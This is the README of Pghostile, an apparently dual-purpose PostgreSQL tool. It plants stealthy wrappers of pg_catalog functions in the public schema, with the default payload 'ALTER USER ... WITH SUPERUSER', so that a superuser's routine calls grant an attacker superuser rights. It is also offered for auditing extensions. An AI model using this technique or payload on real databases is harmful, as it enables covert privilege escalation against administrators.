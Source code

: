 # PGHOSTILE
Pghostile can make PostgreSQL an hostile environment for superusers and a nice playground for attackers.  
Pghostile is an automated tool for overriding "system" functions (the ones from the 'pg_catalog' schema) allowing an attacker to elevate privileges if/when these functions are called by a superuser.  

It can be also used to test the security of the PostgreSQL extension. You can run pghostile to create the "exploit functions" and then run the extension's unit tests and see if you get superuser power after that.

## How it works
In PostgreSQL every function is identified by it's name plus the number/types of arguments (like in Java). If a function is defined to accept a numberic value and you define a function with the same name that accepts an integer, your function will be called if the input parameter is an integer and the original one will be called if the input is a float.  
Considering that an unprivileged user can create functions in the public schema and that the public schema is part of the 'search_path', it's relatively easy to trick a superuser to run code from public instead of pg_catalog.  

In a few words, pghostile searches pg_catalog for functions that can be overridden and creates a malicious wrapper of them in the public schema.  

Currently, it can identify ~900 functions/parameters combinations that can lead to privilege escalation. To give an example, the list below contains some of these functions:  
```SQL
select sha256('randstr');
select unnest(array [1, 2]);
select array_replace(array [1, 2], 1, 1);
select date_cmp('2022-07-12', '2022-07-12');
select time_cmp('00:00:00', '00:00:00');
select varcharout('randstr');
select round(1, 1);
select floor(1);
select power(1, 1);
select int4(1);
select div(1, 1);
select format('randstr', 1);
select pg_sleep(1.1);
select inet_out('10.0.0.1');
select hashmacaddr('01:01:01:02:02:02');
select hashinet('10.0.0.1');
select xml_out('<foo />');
select json_out('[true]');
select uuid_out('93967025-8c89-4320-ad51-4ef50694502f');
```

Then, if the superuser runs something like `select sha256('test123')` you will be superuser in no time ;)

## Usage
```
positional arguments:
  db_username           Database username
  db_name               Database name

optional arguments:
  -h, --help            show this help message and exit
  -X, --disable-exploits-creation
                        Do not create exploit functions
  -H DB_HOST, --db-host DB_HOST
                        Database host (default 127.0.0.1)
  -p DB_PORT, --db-port DB_PORT
                        Database port
  -P, --ask-pass        Prompt for database passsword
  -o OUT, --out OUT     Output dir (deafult ./out)
  -T, --skip-tests      Disable test
  -s, --disable-stealth-mode
                        Disable stealth mode
  -S DB_SSL_MODE, --db-ssl-mode DB_SSL_MODE
                        Database ssl mode (default None)
  -x EXPLOIT_PAYLOAD, --exploit-payload EXPLOIT_PAYLOAD
                        The SQL commands
  -t, --track-execution
                        Track the exploit function execution
  -O, --no-overwrite    Stop execution if at least one exploit function already exists
```

With the -X option you can disable the actual exploit creation. It will just run the tests to see which functions can be overridden.  
With the -T option you can disable the tests and just create the exploit functions.  
The -x option allows you to specify what SQL command(s) should be used in your exploit. By default it's ```ALTER USER <db_username> WITH SUPERUSER;```.  
The -s option disables the "stealth mode". In stealth mode the wrapping functions will call the original function from pg_catalog, in this way the superuser won't see any anomaly when calling a wrapped function. There are also less chances to break execution flows that could bring us to other vulnerable points.  
The -t option enables the tracking of the execution of the exploit functions. It means that every successfull call of an exploit function is logged into a table of the current DB (pghostile.triggers). It's useful for extension analisys.  
The -p option forces the DB's password request even if the PGPASSWORD environment variable is set.  

### Example
```
pghostile.py user1 testdb -H 10.211.55.12
```
```
Starting ... 

[ * ] 1272 interesting functions have been identified
[ * ] Testing 1697 functions
[ * ] 895 exploitable functions found
[ * ] 908 function and parameters combinations run successfully
[ * ] Creating exploit functions
[ * ] Done!

895 functions have been created
The './out' folder contains the output
```

## PG Extension audit
Pghostile can be used to audit the security of PostgreSQL extensions:
1. Run pghostile with the '-t' option to enable execution tracking
```
pghostile.py -t user1 testdb
```
2. Run, as superuser, as many extension's queries/functions as possible
```
psql -U postgres testdb < extension_queries.sql
```
3. Check if you are superuser
```sql
SELECT rolsuper FROM pg_roles where rolname='user1'
```
4. If you are superuser, all the functions that triggered the exploit are listed in:
```sql
select * from pghostile.triggers
```
